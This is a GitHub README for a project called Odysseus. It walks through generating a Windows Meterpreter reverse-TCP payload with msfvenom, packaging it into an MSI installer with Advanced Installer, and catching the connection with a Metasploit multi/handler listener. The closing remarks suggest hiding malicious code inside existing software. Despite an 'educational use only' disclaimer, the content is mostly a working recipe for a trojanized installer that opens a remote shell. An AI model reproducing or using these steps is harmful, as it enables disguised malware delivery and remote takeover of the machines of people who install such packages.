 ```
 _____ ______ __   __ _____  _____  _____  _   _  _____ 
|  _  ||  _  \\ \ / //  ___|/  ___||  ___|| | | |/  ___|
| | | || | | | \ V / \ `--. \ `--. | |__  | | | |\ `--. 
| | | || | | |  \ /   `--. \ `--. \|  __| | | | | `--. \
\ \_/ /| |/ /   | |  /\__/ //\__/ /| |___ | |_| |/\__/ /
 \___/ |___/    \_/  \____/ \____/ \____/  \___/ \____/                                                        
```

# Odysseus

## Overview

The Odysseus project demonstrates the integration of `msfvenom` and `Advanced Installer` to create a software package with embedded payloads. This guide outlines the process of generating a malicious `.exe` with `msfvenom` and then packaging it into an installer using `Advanced Installer`.

**Important:** This project is intended for educational and ethical use only. Always ensure that you have explicit permission before using or demonstrating any tools or techniques that could potentially be harmful.

## Features

- Creation of a malicious `.exe` file using `msfvenom`.
- Packaging of the `.exe` file into an installer using `Advanced Installer`.
- Detailed instructions and screenshots for each step.

## Prerequisites

Before you start, ensure you have the following tools installed:

- [Metasploit Framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- [Advanced Installer](https://www.advancedinstaller.com/)
- [UPX](https://upx.github.io/) (optional for executable packing)

## Installation and Setup

### 1. Clone the Repository

Start by cloning the repository to your local machine:

```bash
git clone https://github.com/imnopro/Odysseus.git
cd Odysseus
```

### 2. Generate the Malicious .exe
Use msfvenom to create a malicious .exe payload. Replace LHOST and LPORT with your local IP address and port.

``` bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.9 LPORT=9002 -f exe -o payload.exe
```


### 3. Package the Payload with Advanced Installer

   -Open Advanced Installer:

   -Launch Advanced Installer and create a new project or open an existing one.

   -Add the Payload:

   -Navigate to the "Files and Folders" section. Add the payload.exe file to the desired location in the installer.

   -Configure Installation Settings:

   -Set the install location and other configuration settings as needed.

   -Build the Installer:

   -Click "Build" to generate the MSI installer.





   ## Running the Demonstration

### Start the Listener:

-Use Metasploit to listen for connections.

``` bash
msfconsole
use exploit multi/handler
set LHOST
set LPORT
set payload windows/x64/meterpreter/reverse_tcp
```

### Install the MSI:

Install the MSI package on a test machine to execute the payload, and then run the .exe to test functionality.


### Closing Remarks

##### As always, please use this responsibly. I am not responsible for what you do with this code, and please make sure to use on systems you have authority to audit and test. While this is a simple Reverse shell, you can also build in other exe files, and potentially use existing pieces of software to hide your malicious code. Happy Hacking!
